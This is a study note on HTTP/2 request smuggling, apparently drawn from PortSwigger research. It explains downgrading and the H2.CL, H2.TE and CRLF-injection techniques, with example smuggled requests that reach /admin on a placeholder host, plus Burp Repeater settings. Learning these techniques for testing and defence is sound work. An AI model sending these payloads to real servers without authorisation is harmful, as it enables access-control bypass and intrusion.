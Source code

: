Research: https://portswigger.net/research/http2

# HTTP/2

#### Length
HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.
#### HTTP 2 Downgrading
HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request.
![[http2-http1-mapping.jpg]]
# Hidden HTTP/2 support
Servers explicitly advertise support for it via ALPN as part of the TLS handshake, but they can be misconfigured.

Use Burp Scanner Pro to automatically detect of hidden HTTP/2 support or force to use HTTP/2:
1. Settings -> Tools -> Repeater
2. Connections -> enable **Allow HTTP/2 ALPN**
3. In Repeater, Inspector -> Request attributes
4. Switch Protocol to HTTP/2

# H2.CL
HTTP/2 requests can also include their own `content-length` header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request.

The spec dictates that any `content-length` header in an HTTP/2 request must match the length calculated using the built-in mechanism, but this isn't always validated properly before downgrading. As a result, it may be possible to smuggle requests by injecting a misleading `content-length` header.

**Front-end (HTTP/2)**:
```http/2
:method        POST
:path          /example
:authority     vulnerable-website.com
content-type   application/x-www-form-urlencoded
content-length 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```
**Backend (HTTP/1.1)**:

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

<mark class="hltr-o">GET /admin HTTP/1.1</mark>
<mark class="hltr-o">Host: vulnerable-website.com</mark>
<mark class="hltr-o">Content-Length: 10</mark>

<mark class="hltr-o">x=1</mark><mark class="hltr-g">GET / H</mark>

# H2.TE
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.
**Front-end (HTTP/2)**:
```
:method           POST
:path             /example
:authority        vulnerable-website.com
content-type      application/x-www-form-urlencoded
transfer-encoding chunked 

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
**Back-end (HTTP/1.1)**:
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

<mark class="hltr-o">GET /admin HTTP/1.1</mark>
<mark class="hltr-o">Host: vulnerable-website.com</mark>
<mark class="hltr-o">Foo: bar</mark>

# CRLF injection
In HTTP/1, you can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers.
```http
Foo: bar\nTransfer-Encoding: chunked
```
Front-end (HTTP/2):
```http/2
bar        \r\nTransfer-Encoding: chunked
```
Backend (HTTP/1.1):
```http
Foo: bar
Transfer-Encoding: chunked
```
Note: it's necessary to enable  **Allow HTTP/2 ALPN** 
How to work with kettled HTTP/2 in #burp https://www.youtube.com/watch?v=W3BGHKyf8RY

